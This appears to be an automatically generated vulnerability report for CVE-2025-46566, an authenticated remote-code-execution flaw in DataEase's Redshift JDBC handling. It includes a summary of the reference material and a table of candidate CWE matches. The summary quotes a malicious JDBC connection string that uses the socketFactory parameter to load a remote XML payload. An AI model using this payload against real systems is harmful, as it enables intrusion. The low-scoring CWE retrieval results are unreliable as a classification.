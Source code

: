 # Vulnerability Information: CVE-2025-46566

## Vulnerability Description
DataEase is an open-source BI tool alternative to Tableau. Prior to version 2.10.9, authenticated users can complete RCE through the backend JDBC link. This issue has been patched in version 2.10.9.

### Vulnerability Description Key Phrases
- **component:** backend JDBC link
- **product:** DataEase
- **impact:** complete RCE, remote code execution
- **attacker:** authenticated users
- **version:** prior to 2.10.9

## CVE Reference Links Content Summary
Here's an analysis of the provided content based on your guidelines:

**Content from github.com_fe2587b6_20250624_194822.html**

*   **Relates to CVE-2025-46566:** Yes, this content explicitly states it's related to CVE-2025-46566.
*   **Root cause of vulnerability:** The vulnerability arises from a lack of keyword filtering in the Dataease software concerning the connection of redshift-jdbc, specifically in versions <= 2.10.8. This allows for the exploitation of a Remote Code Execution (RCE) vulnerability within the vulnerable redshift-jdbc version (v2.1.0.1).
*   **Weaknesses/vulnerabilities present:** RCE via JDBC connection string.
*   **Impact of exploitation:** Authenticated users can achieve RCE.
*   **Attack vectors:** An attacker can construct a malicious JDBC connection string with a payload to trigger the vulnerability.  The content provides a specific example using `jdbc:redshift://127.0.0.1:6666/testdb;socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext;socketFactoryArg=http://127.0.0.1:50025/exp.xml`.  This uses the `socketFactory` parameter to load a malicious XML file.
*   **Required attacker capabilities/position:** Authenticated user. Access to the Dataease software to modify the JDBC connection parameters.
*   **Mitigation or fix:** Upgrade to version 2.10.9 or later.
*   **More detail than the official CVE description:** Yes, the content provides detailed steps for exploitation, including the malicious XML payload, the specific JDBC connection string, and screenshots.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.066 |
| 2 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | sparse | 0.063 |
| 3 | 95 | Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection') | Variant | Allowed | sparse | 0.062 |
| 4 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.061 |
| 5 | 285 | Improper Authorization | Class | Discouraged | sparse | 0.060 |
| 6 | 201 | Insertion of Sensitive Information Into Sent Data | Base | Allowed | sparse | 0.060 |
| 7 | 209 | Generation of Error Message Containing Sensitive Information | Base | Allowed | sparse | 0.060 |
| 8 | 863 | Incorrect Authorization | Class | Allowed-with-Review | sparse | 0.060 |
| 9 | 1049 | Excessive Data Query Operations in a Large Data Table | Base | Allowed | dense | 0.438 |
| 10 | 425 | Direct Request ('Forced Browsing') | Base | Allowed | graph | 0.002 |

